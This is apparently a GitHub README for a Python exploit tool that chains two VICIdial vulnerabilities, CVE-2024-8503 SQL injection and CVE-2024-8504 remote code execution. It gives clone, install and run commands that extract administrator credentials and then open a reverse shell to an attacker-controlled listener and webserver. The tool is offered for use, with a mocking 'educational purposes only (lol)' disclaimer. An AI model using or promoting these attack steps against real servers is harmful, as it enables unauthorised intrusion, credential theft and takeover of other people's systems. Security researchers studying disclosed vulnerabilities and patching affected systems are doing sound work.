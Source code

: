 # ⚡️ Exploit for CVE-2024-8504 & CVE-2024-8503: SQLi and RCE ⚡️

![Banner](./img/banner.png)
## 🚨 Overview

This repository contains a combined exploit for two critical vulnerabilities discovered in **[VICIdial](https://vicidial.com)** by **[KoreLogic](https://korelogic.com)**:
- **CVE-2024-8503**: Unauthenticated SQL Injection (SQLi)
- **CVE-2024-8504**: Authenticated Remote Code Execution (RCE)

These vulnerabilities allow an attacker to retrieve administrative credentials through SQLi and ultimately execute arbitrary code on the target server via an RCE attack.

### 🛑 Advisory:

- **Vulnerability Type**: SQL Injection (CVE-2024-8503) and RCE (CVE-2024-8504)
- **Affected Software**: VICIdial
- **Severity**: Critical
- **CVE IDs**: 
  - **CVE-2024-8503** (SQLi)
  - **CVE-2024-8504** (RCE)

### 🔗 Vulnerability Advisories:
- [CVE-2024-8503 - SQLi Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-011.txt)
- [CVE-2024-8504 - RCE Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-012.txt)

## ⚙️ Features

This exploit tool allows you to either:
1. **Retrieve administrator credentials via SQLi** (CVE-2024-8503)
2. **Achieve RCE via poisoned recording files** (CVE-2024-8504)

The tool is based on KoreLogic’s original research, with enhancements made to:
- Separate the **SQLi** and **RCE** functionalities for more flexibility.
- Improve the **user experience** by simplifying execution and error handling.
- Provide a cleaner and more **aesthetic output** using `rich_click`.

## 📜 Requirements

To use this exploit, you need:
- Python 3.10+
- A **server** where you can open TWO ports 
- A target server running a vulnerable **VICIdial** instance
- Dependencies installed via `requirements.txt`

## ⚙️ Installation

1. Clone the repository:

```bash
git clone https://github.com/Chocapikk/CVE-2024-8504
cd CVE-2024-8504
```

2. Install the dependencies:

```bash
pip install -r requirements.txt
```

## 🛠️ Usage

### SQLi Mode (Retrieve Admin Credentials)

To perform only the **SQL Injection** attack and retrieve the administrative credentials, use the following command:

```bash
python exploit.py -u https://example.org
```

### RCE Mode (Remote Code Execution)

Once you have the administrator credentials, or if you already know them, you can launch a full RCE attack by running the following command:

```bash
python exploit.py -b -u https://example.org \
            -wh <webserver IP> -wp <webserver port> \
            -lh <your IP> -lp <your listener port>  \
            -un <admin username> -pw <admin password>
```

The `-b` option binds the reverse shell to your listener IP and port. This command will start a **Netcat** listener on the specified port and wait for an incoming reverse shell.

> ⚠️ Replace `<webserver IP>` and `<webserver port>` with the values of your malicious webserver (where you execute the exploit) used to capture the reverse shell or inject payloads.

## 🌐 Usage Example with a server

It’s recommended to use a server where you can open ports to listen for reverse shells. Below are examples for both SQLi and RCE:

### Example for SQLi:

```bash
python exploit.py -u https://example.org
```

### Example for RCE:

```bash
python exploit.py -u https://example.org -wh <server IP> -wp 5000 -lh <server IP> -lp 1337 -un admin -pw password123 -b
```

## ✨ Improvements

- **Separation of vulnerabilities**: The tool clearly separates the execution of the **SQLi** and **RCE** functionalities, making it more flexible for different exploitation scenarios.
- **Cleaner output**: The output is more structured and easy to read, highlighting key steps and results.
- **Bug fixes**: Some bugs from the original exploit have been fixed to ensure smoother execution.

## 📄 Acknowledgements

This exploit is based on the original work by **[KoreLogic](https://korelogic.com)**, and full credit goes to them for the discovery and initial PoC:
- [CVE-2024-8503 - SQLi Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-011.txt)
- [CVE-2024-8504 - RCE Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-012.txt)

Special thanks to KoreLogic for the foundational work. This tool was adapted to improve ease of use, bug fixes, and better separation between the two vulnerabilities.

## 🛡️ Disclaimer

This tool is for **educational purposes** only (lol). Use of this exploit without explicit permission from the system owner is illegal. The author assumes no responsibility for the misuse of this tool. Scambaiters, you're welcome.